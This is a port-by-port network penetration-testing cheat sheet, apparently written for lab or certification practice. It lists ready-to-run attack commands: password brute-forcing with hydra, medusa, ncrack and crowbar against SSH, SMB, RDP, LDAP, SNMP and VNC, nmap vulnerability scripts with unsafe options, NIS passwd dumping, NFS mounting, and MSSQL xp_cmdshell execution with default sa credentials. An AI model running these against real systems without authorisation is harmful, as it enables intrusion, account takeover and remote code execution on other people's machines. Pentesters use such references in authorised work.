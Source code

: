 # Source
https://guif.re/networkpentest
# 21 FTP
```bash
nmap -sV -Pn -vv -p21 --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-syst,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 $TARGET
```

# 22 - SSH
Check lockout policy
```bash
cat /etc/pam.d/system-auth
cat /etc/pam.d/password-auth
```
if okay, start brute forcing for fun
```bash
medusa -u $USER -P /usr/share/wordlists/rockyou.txt -e ns -h $TARGET - 22 -M ssh
hydra -s 22 -v -l $USER -P /usr/share/wordlists/rockyou.txt -e nsr -t 4 $TARGET ssh
ncrack -vv -p 22 --user $USER -P /usr/share/wordlists/rockyou.txt $TARGET
```
Check for weak diffie-hellman groups
```
https://github.com/GDSSecurity/SSH-Weak-DH
```

# 25 SMTP
```bash
# find users
smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/top_shortlist.txt -t 10.11.1.115 -p 25
```

# 53 DNS Lookup Range
```bash
dig.sh <ips.txt>

for ip in $(cat ips.txt); do nslookup $ip <nameserver>; done
```

# 69 UDP TFTP
```bash
nmap -n -vvv -d -sU -p69 10.11.1.226 --script tftp-enum.nse --script-args tftp-enum.filelist=/usr/share/wordlists/metasploit/tftp.txt
```

# 88 Kerberos
```bash
nmap -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm="$DOMAIN.local",userdb=/usr/share/seclists/Usernames/Names/names.txt $TARGET

nmap -n -v -p 88 --script krb5-enum-users -sV 10.11.1.201 -d --script-args krb5-enum-users.realm='corp',userdb=cirt-default-usernames.txt
```

# 111/2049 NFS/RSTAT/NIS
```bash
showmount -e 10.10.10.10
nmap -sV -p111,2049 --script=nfs-showmount 10.10.10.10
nmap -p 111,2049 --script=nfs-ls 10.10.10.10
nmap -p 111,2049 --script=nfs-statfs 10.10.10.10

rsysinfo 10.10.10.10

apt-get install nis
ypwhich -d example.org 10.10.10.10
ypcat -d example.org -h 10.10.10.10 passwd.byname

#mounting
mkdir /tmp/mount
mount -t nfs -o nolock 10.10.10.10:/nfs/path /tmp/mount
```

# 139/445 SMB
```bash
nmap -n -v -p 135-139,445 -T4 -PN -sVC --script= --script-args=unsafe=1 $TARGET
nmap -n -v -p 135-139,445 -T4 -PN -sVC --script --script-args=unsafe=1 $TARGET
nmblookup -A $TARGET
smbclient //MOUNT/share -I $TARGET N
smbclient -L //$TARGET
enum4linux -a $TARGET
rpcclient -U "" $TARGET

# brute
hydra -l manager -P /usr/share/wordlists/rockyou.txt 10.11.1.202 smb
```

# 161 SNMP
v1/2
```bash
snmpwalk -v 2c -c public 10.10.10.1
```

v3
```bash
# enumerate usernames
snmpv3enum.rb -i 10.0.0.5 -u usernames

# brute
hydra -U snmp
```

# 389 LDAP
```bash
nmap -n -v -p 389 --script ldap-rootdse.nse -sV 10.11.1.201

nmap -n -v -p 389 --script ldap-search.nse -sV 10.11.1.201

ldapsearch -D "cn=admin" -w secret123 -p 389 -h 10.10.10.10 -s base -b "ou=people,dc=orachrvile,dc=com" "objectclass=*"

# brute
nmap -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' <host>
```

# 80/443 - HTTP Servers
```bash
nmap -n -v -p 80,443,8080 -T4 -PN -sVC --script http-vuln* --script-args=unsafe=1 $TARGET
nikto -h http://$TARGET -p 80 -output 80_nikto.txt
curl -v -i $TARGET:80
w3m -dump $TARGET/robots.txt | tee 80_robots.txt
VHostScan -t $TARGET -oN 80_vhosts.txt
```

## 80/443 - HTTP (Discovery)
```bash
dirb http://$TARGET:80/ -o 80_dirb.txt
dirbuster -H -u http://$TARGET:80/ -l /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -s / -v -r 80_dirbuster_medium.txt
gobuster -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://$TARGET:80/ -s '200,204,301,302,307,403,500' -e | tee '80_gobuster_common.txt'
gobuster -w /usr/share/seclists/Discovery/Web-Content/RobotsDisallowed-Top1000.txt -u http://$TARGET:80/ -s '200,204,301,302,307,403,500' -e | tee '80_gobuster_toprobots.txt'
gobuster -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -u http://$TARGET:80/ -s '200,204,301,307,403,500' -e  | tee '80_gobuster_cgis.txt'
```
# 1038 ruserd
```bash
apt-get install rusers
rusers -l 10.10.10.10

## 3389 RDP
```bash
# brute force
ncrack -vv --user administrator -P PASS_LIST rdp://$TARGET
crowbar -b rdp -u -s $TARGET -U USER_LIST -C PASS_LIST
for username in $(cat USER_LIST); do for password in $(cat PASS_LIST) do; rdesktop -u $username -p $password $TARGET; done; done;
```

## 1433/27900 MSSQL
```bash
nmap -vv -sV -Pn -p 27900 --script=ms-sql-info,ms-sql-config,ms-sql-dump-hashes --script-args=mssql.instance-port=27900,mssql.username=sa,mssql.password=sa $TARGET

 nmap -n -v -p 1433 10.11.1.31 -sTV -PN --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="c:\ralph.exe"

 nmap -n -v -p 27900 10.11.1.227 -sV --script ms-sql-query.nse --script-args mssql.username=sa,mssql.password=password,ms-sql-query.query="SELECT * FROM tblCustomers",mssql.database=tblCustomers

```

## Various high ports Windows DCE
```bash
rpcdump.py

/usr/share/spike/dcedump/ifids -p ncadg_ip_tcp -e 1025 10.10.10.10
```

https://l.wzm.me/_security/internet/_internet/WinServices/index.html

## 3128,8080/various Proxies (squid, etc)
https://tools.kali.org/maintaining-access/httptunnel
```bash
#Connect to the proxy and scan whats available behind it:
#htc -F <local-port> <address>:<proxy-port>
htc -F 80 10.10.11.31:3128
curl -vv http://127.0.0.1:80

# scan (or run any command over the proxy chains) through the proxy with proxychains
htc -F 9050 10.10.11.31:3128
proxychains nmap -sTVC -p- 10.10.11.31
```

## 5900 VNC
VNC passwords are 8 >= characters long. Tailor dictionary to this
```bash
# vuln
nmap -n -v -p 5900 -sV -T4 -PN --script realvnc*,vnc-info*,vnc-title* $TARGET
# Find public exploits
searchsploit vnc
# Bruteforcing
crowbar -b vnckey -s 10.11.1.73/32 -p IP -k PASS_FILE
```
